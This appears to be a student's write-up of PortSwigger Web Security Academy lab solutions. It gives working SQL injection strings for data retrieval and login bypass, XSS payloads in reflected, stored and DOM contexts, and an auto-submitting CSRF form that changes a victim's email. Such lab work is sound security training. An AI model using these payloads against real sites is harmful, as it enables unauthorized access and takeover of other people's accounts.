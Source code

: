 # Burpsuite Academy

## SQLi

### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

We can exploit an SQLi in category search input: `' OR 1=1 -- `

The query will be interpreted as: `SELECT * FROM products WHERE category = '' OR 1=1 -- ' AND released = 1`

cleaning it up gives: `SELECT * FROM products WHERE category = '' OR 1=1`

### Lab: SQL injection vulnerability allowing login bypass

We can head to `/login` route, send `administrator' -- ` in the username field. We'll be logged in as administrator.

## XSS

### Lab: Reflected XSS into HTML context with nothing encoded

Performing a search in the website, we can see that our input is reflected. We try `<script>alert(1)</script>` as our search payload & we get an XSS.

### Lab: Stored XSS into HTML context with nothing encoded

We can go to a post's details page, scroll down & write a new comment. We use `<script>alert(1)</script>` for the comment body & anything for the rest of the other fields. Posting this comment creates a stored XSS.

This alert will be executed to anyone that opens the post details later on.

### Lab: DOM XSS in document.write sink using source location.search

**Description**: 
```
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
```

Examining the page's source code:

```html
<script>
    function trackSearch(query) {
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>
```

Well, that's our XSS. We can insert a `">` to break out of the `img` tag then inject our XSS payload. Full payload: `a"><script>alert(1)</script>`

## CSRF

### Lab: CSRF vulnerability with no defenses

**Description**: 
```
 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter 
```

After logging in, we can change our own email address:

<p align="center">
  <img src="/img/img1.png"><br/>
</p>

First things first, we examine the request sent to update our email:

<p align="center">
  <img src="/img/img2.png"><br/>
</p>

Cleaning it up a little:

<p align="center">
  <img src="/img/img3.png"><br/>
</p>

For a CSRF, we can create a form with 1 input, `email`, that's sent to our lab url. Since there's no CSRF tokens, if we host this url in a website & send the url to a victim, this will successfully change their email.

Our form:

```html
<form id="f" method="POST" action="https://0ab00099034d0c18826d339700bc00bd.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@qa.team">
</form>
```

With a little JS, we can automatically submit the form:

```html
<script>
    window.f.submit();
</script>
```

We store our payload in exploit server (Or we can deploy our own), deliver the link to the victim.